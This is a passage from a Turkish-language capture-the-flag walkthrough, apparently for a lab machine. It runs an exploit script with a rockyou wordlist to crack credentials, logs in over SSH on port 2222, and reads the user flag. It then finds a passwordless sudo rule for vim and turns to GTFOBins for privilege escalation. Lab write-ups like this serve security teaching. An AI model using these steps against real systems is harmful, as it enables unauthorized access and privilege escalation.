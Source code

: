 Sonrasında, bu exploit’i kullanarak sisteme erişim sağladık ve açığı başarıyla kullandık.

```bash
python3 exploit.py -u http://<your_machine_ip>/simple --crack -w /usr/share/wordlists/rockyou.txt
```

<img width="1335" height="625" alt="exploitpy" src="https://github.com/user-attachments/assets/855939ac-b754-4998-9ec6-a06547b1b6e0" />

---

Elde ettiğimiz bilgilerle 2222 portunda çalışan SSH servisine bağlandık.

<img width="699" height="389" alt="sshlogin" src="https://github.com/user-attachments/assets/5df43903-c6c3-42f7-ad8b-d5739bd474a7" />

---

Sonrasında, ilk flag olan user.txt dosyasını bulup okuduk.

```bash
$ ls
user.txt
$ cat user.txt
G00d xxx,xxxx xxx
$ 
```

---

Sonrasında sistemde başka dosya olup olmadığını kontrol ettik ve sunbath adlı başka bir dosya bulduk. Bu dosya, CTF çözümünde bize sorulan sorulardan biriydi.

```bash
# cd /home
# ls
mitch  sunbath
# 
```

---

Sonrasında, sistemde root yetkisiyle çalıştırabileceğimiz komutları görmek için "sudo -l" komutunu çalıştırdık ve bize tanımlı bir ayrıcalık olduğunu fark ettik.

```bash
$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
$ 
```

---

vim komutunu root yetkileriyle çalıştırabildiğimizi gördük ve hemen GTFObins web sitesini ziyaret ederek bu yetkiyle neler yapabileceğimizi inceledik.

<img width="1570" height="877" alt="gtfobins" src="https://github.com/user-attachments/assets/1736cc1b-f631-44fd-b7b6-ce93acf28ace" />

---

